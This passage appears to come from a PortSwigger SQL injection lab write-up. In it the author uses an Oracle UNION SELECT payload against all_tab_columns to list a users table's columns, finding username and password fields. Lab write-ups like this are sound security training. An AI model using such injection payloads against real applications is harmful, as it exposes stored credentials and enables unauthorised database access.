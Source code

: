 ![users table](/docs/assets/images/portswigger/sqli/examinedb/examinedb26.png)

Now I can query the `all_tab_columns` `WHERE table_name='USERS_OERPCY` view using *Oracle* database syntax and get a list of the column names in the users table. 

`Gifts'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_OERPCY'--`

I can see in the response two of the column names are: 

`PASSWORD_RALSWA` 

`USERNAME_CRGLBU` 
